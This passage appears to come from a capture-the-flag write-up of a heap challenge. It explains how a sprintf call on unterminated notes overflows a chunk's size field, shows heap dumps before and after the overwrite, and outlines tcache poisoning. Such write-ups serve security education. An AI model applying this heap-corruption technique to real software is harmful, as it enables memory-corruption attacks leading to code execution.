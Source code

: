 Let us focus on the `sprintf(pasted.ptr, "%s%s", list[idx].ptr, copied.ptr)`.
The format specifier `%s` reads characters from the corresponding pointer as a string until it encounters a NULL character.
However, `create()` does not append a NULL character to the end of the memory block after receiving input from standard input.

For instance, if we create a single note of size 24 and pad its content with 'A's, the internal structure of the heap would resemble the following.

```
0x561ef707e290  0x0000000000000000      0x0000000000000021      ........!.......
0x561ef707e2a0  0x4141414141414141      0x4141414141414141      AAAAAAAAAAAAAAAA
0x561ef707e2b0  0x4141414141414141      0x0000000000020d51      AAAAAAAAQ.......         <-- Top chunk
```

When considering pasting another note onto this note, it should be noted that the size of the target note is 24, but `sprintf(pasted.ptr, "%s%s", list[idx].ptr, copied.ptr)` reads up to 27 bytes including \x41\x41...\x41\x51\x0d\x02.
If the size of the note set to `copied` is a multiple of 16, the last 3 bytes of the content of `copied` will overflow.

By performing the above operations, we can overwrite the management information of a chunk, such as its `size`.
If we can overwrite `size` of a chunk, we can connect any address to the tcache by following these steps:

1. Use a heap overflow to overwrite `size` of an allocated chunk (victim chunk) with a larger value.
```
before
                                        0x0000000000000031      AAAAAAAA1.......
0x55b8bc6902e0  0x000000055b8bc690      0xb36247d8d5a8cb51      ...[....Q....Gb.         <-- tcachebins[0x30][0/1]
0x55b8bc6902f0  0x0000000000000000      0x0000000000000000      ................
0x55b8bc690300  0x0000000000000000      0x0000000000000021      ........!.......
0x55b8bc690310  0x000a6d6974636976      0x0000000000000000      victim..........         <-- victim chunk
0x55b8bc690320  0x0000000000000000      0x0000000000000021      ........!.......
0x55b8bc690330  0x7070616c7265766f      0x00000000000a6465      overlapped......         <-- overlapped chunk
0x55b8bc690340  0x0000000000000000

after
                                        0x0000000000000031      AAAAAAAA1.......
0x55b8bc6902e0  0x4141414141414141      0x4141414141414141      AAAAAAAAAAAAAAAA
0x55b8bc6902f0  0x4141414141414141      0x4141414141414131      AAAAAAAA1AAAAAAA
0x55b8bc690300  0x4141414141414141      0x0000000000000041      AAAAAAAAA.......
0x55b8bc690310  0x000a6d6974636976      0x0000000000000000      victim..........         <-- victim chunk
0x55b8bc690320  0x0000000000000000      0x0000000000000021      ........!.......
0x55b8bc690330  0x7070616c7265766f      0x00000000000a6465      overlapped......         <-- overlapped chunk
0x55b8bc690340  0x0000000000000000
```
